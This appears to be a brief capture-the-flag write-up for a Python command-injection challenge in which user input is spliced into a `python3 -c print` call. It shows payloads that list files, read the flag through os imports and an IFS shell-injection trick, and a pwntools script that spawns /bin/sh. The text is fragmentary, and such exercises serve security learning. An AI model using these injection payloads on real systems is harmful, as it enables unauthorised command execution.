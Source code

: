```python
# vuln
python3 -c 'print(%s + %s)'
```

Firstly I’ve passed empty string [""] as the first argument and `"".join(__import__("os").listdir())` as the second one. Just to check where’s the flag.

Ok, let’s read the flag content by passing `open("flag","rt").read()` payload as a second argument.

------

Let's look around first (command: `python -c 'print()';ls;'( + ooops)'`)

Capture the flag using [IFS](https://en.wikipedia.org/wiki/Input_Field_Separators) (command: `python -c 'print()';IFS=:;a=cat:flag;$a;'( + ooops)`)

------

);1

2;print(open("./flag","r").read()

------

```python
payload_one = b'""'
payload_two = b'__import__("os").system("/bin/sh")'

p.recvuntil('Variable one: ')
p.sendline(payload_one)
p.recvuntil('Variable two: ')
p.sendline(payload_two)

p.interactive()
```

